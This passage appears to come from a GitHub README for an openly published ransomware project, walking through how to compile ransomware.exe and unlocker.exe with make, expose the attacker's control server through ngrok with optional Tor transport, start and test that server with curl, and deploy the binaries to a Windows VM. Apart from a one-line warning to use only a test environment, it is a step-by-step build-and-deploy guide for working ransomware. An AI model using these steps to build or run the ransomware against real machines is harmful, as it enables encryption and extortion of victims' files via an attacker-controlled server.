 #### Example:

`make -e USE_TOR=true SERVER_HOST=mydomain.com SERVER_PORT=80 GOOS=darwin`

The `SERVER_` variables above only apply to the malware. The server has a flag `--port` that you can use to change the port that it will listen on.

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not responsible if you accidentally encrypt all of your disks!

## Step by Step Demo and How it Works

For this demo I'll use two machines, my personal linux machine and a windows 10 VM.

For the sake of simplicity, I have a folder mapped to the VM, so I can compile from my linux and copy to the vm.

In this demo we will use the [Ngrok](https://ngrok.com) tool, this will allow us to expose our server using a domain, but you can use your own domain or ip address if you want. We are also going to enable the Tor transport, so `.onion` domains will work without problems.

First of all lets start our external domain:

```bash
ngrok http 8080
```

This command will give us a url like ` http://2af7161c.ngrok.io`. Keep this command running otherwise the malware won't reach our server.

Let's compile the binaries (remember to replace the domain):

```bash
make -e SERVER_HOST=2af7161c.ngrok.io SERVER_PORT=80 USE_TOR=true
```

The `SERVER_PORT` needs to be `80` in this case, since ngrok redirects `2af7161c.ngrok.io:80` to your local server port `8080`.

After build, a binary called `ransomware.exe`, and `unlocker.exe` along with a folder called `server` will be generated in the bin folder. The execution of `ransomware.exe` and `unlocker.exe` (even if you use a diferent GOOS variable during compilation) is locked to windows machines only.

Enter the server directory from another terminal and start the server;

```bash
cd bin/server && ./server --port 8080
```

To make sure that all is working correctly, make a http request to your server`(e.g http://2af7161c.ngrok.io`:)

```bash
curl http://2af7161c.ngrok.io
```

If you see a `OK` and some logs in the server output you are ready to go.

Now move the `ransomware.exe` and `unlocker.exe` to the VM along with some dummy files to test the malware. You can take a look at [cmd/common.go](https://github.com/j0nk0/ransomware/blob/master/cmd/common.go) to see some configuration options like file extensions to match, directories to scan, skipped folders, max size to match a file among others.

